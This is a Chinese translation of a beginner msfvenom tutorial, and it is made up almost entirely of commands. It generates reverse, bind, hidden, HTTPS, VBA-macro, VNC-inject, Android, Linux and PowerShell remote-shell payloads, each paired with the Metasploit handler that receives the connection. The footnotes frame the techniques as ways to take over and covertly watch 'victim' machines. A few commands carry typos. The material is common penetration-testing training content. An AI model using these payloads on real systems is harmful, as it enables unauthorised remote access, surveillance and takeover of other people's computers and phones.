 ## Msfvenom初学者教程 [^1]

### **绑定shell **[^2]

`msfvenom -p windows/meterpreter/bind_tcp -f exe > /root/Desktop/bind.exe`

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/bind_tcp
msf exploit(handler) > set rhost 192.168.0.100
msf exploit(handler) > set lport 4444
msf exploit(handler) > exploit
```

### **反向TCP有效负载** [^3]

`msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.107 lport=5555 -f exe > / root/Desktop/reverse_tcp.exe`

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.0.107
msf exploit(handler) > set lport 5555
msf exploit(handler) > exploit
```

### **HTTPS有效负载 ** [^4]

`msfvenom -p windows/meterpreter/reverse_https lhost=192.168.0.107 lport=443 -f exe > /root/Desktop/443.exe`

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_https
msf exploit(handler) > set lhost 192.168.0.107
msf exploit(handler) > set lport 443
msf exploit(handler) > exploit
```

### **隐藏绑定TCP有效负载** [^5]

`msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.0.107 lport=1010 -f exe > /root/Desktop/hidden.exe`

`nc 192.168.0.100 1010`

### **使用Netcat反向Shell有效负载** [^6]

`msfvenom -p windows/shell_reverse_tcp ahost=192.168.0.107 lport=1111-f exe > /root/Desktop/ncshell.exe`

`nc -lvp 1111`

### **宏有效负载** [^7]

`msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.107 lport=7777 -f vba`

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set paylaod windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.0.107
msf exploit(handler) > set lport 7777
msf exploit(handler) > exploit
```

### **VNC有效载荷** [^8]

`msfvenom -p windows/vncinject/reverse_tcp lhost=192.168.0.107 lport=5900 -f exe > /root/Desktop/vnc.exe`

```bash
msf exploit(handler) > use exploit/multi/handler
msf exploit(handler) > set paylaod windows/vncinject/reverse_tcp
msf exploit(handler) > set lhost 192.168.0.107
msf exploit(handler) > set lport= 5900
msf exploit(handler) > exploit
```

### **Android Payload**

`msfvenom -p andriod/meterpreter/reverse_tcp lhost=192.168.0.107 lport=8888 > /root/Desktop/file.apk`

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload android/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.0.107
msf exploit(handler) > set lport 8888
msf exploit(handler) > exploit
```

### **Linux Payload**

`msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.0.107 lport=4444 -f elf > /root/Desktop/shell`

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.0.107
msf exploit(handler) > set lhost 4444
msf exploit(handler) > run
```

### **Powershell Payload**

`msfvenom -p cmd/windows/reverse_powershell lhost=192.168.0.107 lport=4444 > /root/Desktop/shell.bat`

```bash
msf > use multi/handler
msf exploit(handler) > set payload cmd/windows/reverse_powershell
msf exploit(handler) > set lhost 192.168.0.107
msf exploit(handler) > set lport 4444
msf exploit(handler) > run
```

[原文](https://www.hackingarticles.in/msfvenom-tutorials-beginners/)

---

[^1]: Msfvenom是Metasploit的命令行实例，用于生成和输出Metasploit中提供的所有各种类型的shell代码,即创建具有不同扩展和技术的有效载荷。
[^2]: 绑定shell是一种在目标计算机上打开新服务并要求攻击者连接到它以获得会话的类型
[^3]: 反向shell（也称为连接反向）正好相反：它要求攻击者首先在他的盒子上设置一个侦听器，目标机器充当连接到该侦听器的客户端，然后最终攻击者接收到shell
[^4]: 如果我们在受害计算机上有相关端口处于活动状态，则可以使用上述两个有效负载，因此问题出现了如果受害者已阻止所有端口的情况？那么在这种情况下，我们可以根据受害机器上运行的端口创建有效负载，例如443 for https
[^5]: 这个有效负载在执行时以静默方式隐藏在后台，如果被任何端口扫描程序扫描，则不会显示其存在
[^6]: 现在让我们做同样的过程并使用shell_reverse_tcp有效载荷，这是另一种获取受害者shell会话的技术
[^8]: 如果我们能够在他们不知情的情况下远离受害者机器并匿名观察他们的活动，这种有效载荷就是这样，那么我们就可以利用它来实现我们的利益。
[^7]: 我们使用VBA脚本创建一个有效负载，我们将使用它在Excel上创建一个宏来利用受害者机器。